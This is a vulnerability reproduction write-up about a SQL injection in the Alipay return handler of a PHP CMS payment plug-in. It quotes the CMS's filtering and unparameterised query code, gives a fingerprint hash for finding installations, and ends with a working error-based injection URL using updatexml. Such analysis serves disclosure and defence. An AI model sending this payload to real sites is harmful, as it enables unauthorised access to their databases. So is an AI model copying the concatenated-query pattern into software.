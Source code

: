 # Extreme CMS alipay_return_pay SQL injection vulnerability

## Vulnerability Description

There is a SQL injection vulnerability in the extreme CMS payment plug-in, and database information can be obtained through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Extreme CMS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1657387632"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633500278668-c9cbbe05-5213-4454-a608-5f5cbe1c9e1b.png)

Check out the filtering function



```php
/**
	参数过滤，格式化
**/
function format_param($value=null,$int=0){
	if($value==null){ return '';}
	switch ($int){
		case 0://整数
			return (int)$value;
		case 1://字符串
			$value=htmlspecialchars(trim($value), ENT_QUOTES);
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			
			return $value;
		case 2://数组
			if($value=='')return '';
			array_walk_recursive($value, "array_format");
			return $value;
		case 3://浮点
			return (float)$value;
		case 4:
			if(version_compare(PHP_VERSION,'7.4','>=')){
				$value = addslashes($value);
			}else{
				if(!get_magic_quotes_gpc())$value = addslashes($value);
			}
			return trim($value);
	}
}

//过滤XSS攻击
function SafeFilter(&$arr) 
{
   $ra=Array('/([\x00-\x08,\x0b-\x0c,\x0e-\x19])/','/script/','/javascript/','/vbscript/','/expression/','/applet/'
   ,'/meta/','/xml/','/blink/','/link/','/style/','/embed/','/object/','/frame/','/layer/','/title/','/bgsound/'
   ,'/base/','/onload/','/onunload/','/onchange/','/onsubmit/','/onreset/','/onselect/','/onblur/','/onfocus/',
   '/onabort/','/onkeydown/','/onkeypress/','/onkeyup/','/onclick/','/ondblclick/','/onmousedown/','/onmousemove/'
   ,'/onmouseout/','/onmouseover/','/onmouseup/','/onunload/');
     
   if (is_array($arr))
   {
     foreach ($arr as $key => $value) 
     {
        if (!is_array($value))
        {
            if(version_compare(PHP_VERSION,'7.4','>=')){
				$value  = addslashes($value); 
			}else{
				if (!get_magic_quotes_gpc()){
					$value  = addslashes($value); 
				}
			}
          $value = preg_replace($ra,'',$value);     //删除非打印字符，粗暴式过滤xss可疑字符串
          $arr[$key]     = htmlentities(strip_tags($value)); //去除 HTML 和 PHP 标记并转换为 HTML 实体
        }
        else
        {
          SafeFilter($arr[$key]);
        }
     }
   }
}
```



Take a look at the functions of the executed SQL statement



```php
 // 查询一条
    public function find($where=null,$order=null,$fields=null,$limit=1)
    {
	   if( $record = $this->findAll($where, $order, $fields, 1) ){
			return array_pop($record);
		}else{
			return FALSE;
		}
    }
```



Follow up on the findAll function



```php
// 查询所有
    public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
    {
		$where = '';
		if(is_array($conditions)){
			$join = array();
			foreach( $conditions as $key => $value ){
				$value =  '\''.$value.'\'';
				$join[] = "{$key} = {$value}";
			}
			$where = "WHERE ".join(" AND ",$join);
		}else{
			if(null != $conditions)$where = "WHERE ".$conditions;
		}
      if(is_array($order)){
       		$where .= ' ORDER BY ';
            $where .= implode(',', $order);
      }else{
         if($order!=null)$where .= " ORDER BY  ".$order;
      }
		
		if(!empty($limit))$where .= " LIMIT {$limit}";
		$fields = empty($fields) ? "*" : $fields;
 
		$sql = "SELECT {$fields} FROM {$this->table} {$where}";
		
        return $this->getData($sql);
 
    }
```



Follow up on the getData function



```php
//获取数据
	public function getData($sql)
	{
		if(!$result = $this->query($sql))return array();
		if(!$this->Statement->rowCount())return array();
		$rows = array();
		while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
		$this->Statement=null;
		array_pop($rows);
		return $rows;
	}
```



Follow up on query execution function



```php
//执行SQL语句并检查是否错误
	public function query($sql){
		$this->filter[] = $sql;
        $this->Statement = $this->pdo->query($sql);
        if ($this->Statement) {
			return $this;
        }else{
			$msg = $this->pdo->errorInfo();
			if($msg[2]) exit('数据库错误：' . $msg[2] . end($this->filter));
		}
	}
```



- ✅See the `$msg = $this->pdo->errorInfo();` statement, which means that the database error message will be printed on the page and displayed and exited
- ✅A set of analysis did not find any filtering of SQL statements. If the obtained data has not been filtered by `format_param`, injection will be generated.



For example:

```php
function exploit(){
    M('member')->find(['username'=>$_GET['name']]);
}
```

If GET POST REQUEST is brought into the database directly, an error injection will occur

For example ./exploit/name=123' (adding a quote will cause an error if the quotes are not filtered)

Now you just need to find the type, which is the statement that is directly brought into the database without filtering.

There are actually quite a lot of places like this, take a location as an example

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/jizhi-5.jpg)



This is the location of a payment plug-in. The blue square 1 adds code to simulate the activation of Alipay function and pass verification.



You can see that this function only uses [htmlspecialchars] to filter xss, and the SQL statement is not filtered, so use the method just now to inject



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/jizhi-6.jpg)



You can see that there are indeed SQL statements and database errors, and you can directly report errors and inject them to obtain sensitive information.

`mypay/alipay_return_pay?out_trade_no=1%27 and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+"`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20220313235238670.png)